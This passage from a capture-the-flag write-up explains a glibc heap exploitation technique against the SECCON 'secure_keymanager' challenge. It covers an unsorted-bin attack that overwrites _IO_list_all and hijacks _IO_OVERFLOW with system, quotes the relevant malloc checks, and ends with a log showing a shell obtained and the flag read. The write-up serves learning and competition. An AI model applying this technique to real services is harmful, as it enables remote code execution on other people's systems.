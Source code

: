 All we have to do now is allocate a new chunk such that we bypass the following check:

```c
if (in_smallbin_range (nb) &&        
    bck == unsorted_chunks (av) &&   
    victim == av->last_remainder &&  
    (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) 
    {
```  

In order to fall under this case:

```c
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;   // Make 0x7fc503f5b510 the new unsorted bin
bck->fd = unsorted_chunks (av);
```

So that `_IO_list_all` gets overwritten with the unsorted bin's address. Then, `malloc` will stumble upon a check:

```c
bck = unsorted_chunks(av);
fwd = bck->fd;
if (__glibc_unlikely (fwd->bk != bck)) 
{
    errstr = "free(): corrupted unsorted chunks";
    goto errout;
}
```

From which it will call `malloc_printerr => __libc_message => abort => fflush / _IO_flush_all_lockp`. By taking care of the
check requirements before aborting, we can trigger `_IO_OVERFLOW` which we have impersonated with `system`. Finally, we will
get our beloved shell.

```
[+] Opening connection to secure_keymanager.pwn.seccon.jp on port 47225: Done
[+] Libc:         0x7f7c9b1d4000
[+] _IO_list_all: 0x7f7c9b599520
[+] system:       0x7f7c9b219390
[*] Switching to interactive mode
$ id
uid=10035 gid=10000(sec_km) groups=10000(sec_km)
$ ls
flag.txt
secure_keymanager
$ cat flag.txt
SECCON{C4n_y0u_b347_h34p_45lr?}
```
